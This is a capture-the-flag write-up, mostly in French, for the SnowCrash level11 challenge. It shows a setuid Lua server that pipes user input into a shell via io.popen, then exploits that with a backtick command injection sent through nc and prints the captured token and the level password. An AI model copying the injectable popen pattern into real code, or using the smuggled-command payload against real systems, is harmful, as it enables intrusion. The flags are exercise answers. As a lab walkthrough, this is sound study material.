 # LEVEL 00

**LOGIN: level11**

**PASSWORD: feulo4b72j7edeahuete3no7c**

 ----


```
level11@SnowCrash:~$ ls -l 
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```
```
level11@SnowCrash:~$ cat level11.lua 
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

Le reverse sha1 de `"f05d1d066fb246efe0c6f7d095f909a7a0cf34a0` ne donne rien malheureusement. 

Avec `netstat` on confirme bien que le port 5151 est en écoute

`tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      -`


Cette ligne ` prog = io.popen("echo "..pass.." | sha1sum", "r")` doit nous permettre d'exploit un subshell avec le mot de passe entrée.

```
nc localhost 5151
Password: `getflag >/tmp/exploit`
Erf nope..
level11@SnowCrash:~$ cat /tmp/exploit
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

**TOKEN :fa6v5ateaw21peobuub8ipe6s**

